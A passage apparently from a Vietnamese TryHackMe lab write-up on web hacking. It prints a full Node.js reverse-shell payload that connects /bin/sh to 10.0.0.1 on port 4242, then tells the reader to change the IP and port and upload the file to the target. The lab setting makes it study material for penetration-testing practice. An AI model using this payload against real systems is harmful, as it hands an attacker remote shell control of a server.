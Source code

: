     (function(){

    var net = require("net"),

        cp = require("child_process"),

        sh = cp.spawn("/bin/sh", []);

    var client = new net.Socket();

    client.connect(4242, "10.0.0.1", function(){

        client.pipe(sh.stdin);

        sh.stdout.pipe(client);

        sh.stderr.pipe(client);

    });

    return /a/; // Prevents the Node.js application from crashing

    })();

=> Thay đổi port và IP:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image203.png?raw=true)

=> Thử upload file này:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image204.png?raw=true)
